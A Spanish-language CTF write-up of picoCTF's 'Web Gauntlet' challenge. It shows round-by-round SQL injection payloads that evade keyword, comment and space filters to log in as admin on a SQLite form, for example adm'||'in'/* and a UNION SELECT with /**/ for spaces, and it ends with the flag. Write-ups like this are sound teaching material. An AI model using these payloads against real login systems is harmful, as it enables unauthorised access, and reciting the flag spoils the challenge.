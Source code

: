 ```yaml
---
layout: post
title: picoCTF web gauntlet - sql injection y evadiendo filtros
author: c4rta
date: 2023-01-04
##categories: [Desafios Web]
tags: [SQL injection]
---
```

En este desafio explotaremos un SQLi donde hay que evadir un par de filtros para conseguir la flag

{:.lead}

Para este desafio tenemos que hacer bypass de varios filtros usando sql injection, el SGBD es sqlite y el usuario para todos los casos es ```admin```

```http://jupiter.challenges.picoctf.org:41560/``` --> Pagina vulnerable

```http://jupiter.challenges.picoctf.org:41560/filter.php``` --> Filtro de cada round

## Round 1

El primer filtro de debemos de evadir es ```or```, al llenar los campos y presionar en ```sign in``` vemos como nos muestra la consulta, la cual es:

```SELECT * FROM users WHERE username='admin' AND password='admin'```


Aun que no hayamos conseguido iniciar, podemos ver que se esta usando el operador ```AND```, y ```AND``` permite usar multiples condiciones en un ```WHERE```, al usar ```AND```, se asume que que toda la condicion es verdadera, cuando cada condicion sea verdadera.

Ademas debemos de evadir ```OR```, que lo que hace es combinar varias condiciones en un ```WHERE```, y al usarlo se asume que la condicion completa es verdadera cuando cualquiera de las condiciones sea verdadera.

Asi que como sabemos que el usuario debe ser ```admin```, lo que podemos hacer es escapar la consulta desde el ```AND``` para que toda la condicion sea verdadera y asi se cumpliria la condicion ```AND``` ya que ahora la contraseña es igual a lo que le pasemos como input, ```0R``` ya que esta cumpliendo una condicion que es que el usuario sea ```admin``` y ademas omitimos la contraseña, esto lo hacemos comentando desde ```AND```, y queda algo asi:

usuario: ```admin'--```
contra: --> esto puede ser lo que sea


### Round 2

En este round no podemos usar ```OR``` y ```--```, pero realmente es lo mismo que el anterior, ya que en sqlite hay dos tipos de comentario, uno es ```--``` y otro es ```/*``` (la explicacion es la misma).

usuario: ```admin' /*```

Y otra manera de solucionarlo es acortar la consulta, esto para que solo haya una condicion, es decir que el usuario sea admin, la consulta queda asi

```SELECT * FROM users WHERE username='admin';```

Y el input queda asi:

usuario: ```admin;```


### Round 3

Ahora no podemos usar ```OR```, espacios y ```--```, pero esto no importa ya que aun podemos acortar la consulta como en el round pasado y todo queda igual, asi:

```SELECT * FROM users WHERE username='admin';```

El input queda asi:

usuario: ```admin';```

## Round 4

Ahora no podemos usar ```OR```, espacios, ```--``` y la palabra ```admin```.

La manera mas evidente de resolverlo es separar la palabra admin y luego concaternarla, esto lo podemos hacer con ```||``` y luego comentar todo lo demas, de esta manera:

```SELECT * FROM users WHERE username='adm'||'in'/*```

Y como input le podemos pasar esto

```adm'||'in'/*```

Otra manera de resolverlo es usando el operador ```UNION``` y la consulta quedaria algo asi:

```SELECT * FROM users WHERE username='c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

Esto hace dos consultas, la primera es:

```SELECT * FROM users WHERE username='c4rta'```

Y la segunda:

```SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

```UNION``` combina los SELECT, ```/**/``` entre todas las palabras representan los espacios en blanco. Y tenemos que incluir la parte LIMIT 1 porque generalmente en una base de datos, el administrador es la primera entrada de la tabla y con esta consulta, simplemente recuperamos la primera línea, que en este caso es el administrador, entonces nuestro input queda:


usuario: ```c4rta'/**/UNION/**/SELECT/**/*/**/FROM/**/users/**/LIMIT/**/1;```

## Round 5

Aun que ahora ya no podemos usar el ```UNION``` y todos los demas filtros anteriores, podemos separar la palabra ```admin``` y luego concatenarla, osea que podemos usar uno de los payloads de round 4 y entonces queda asi:

usuario: ```adm'||'in'/*```

Y la flag es: ```picoCTF{y0u_m4d3_1t_275cea1159781d5b3ef3f57e70be664a}```

Eso ha sido todo, gracias por leer ❤

![](/assets/img/web-gaunlet/waifu.jpg)
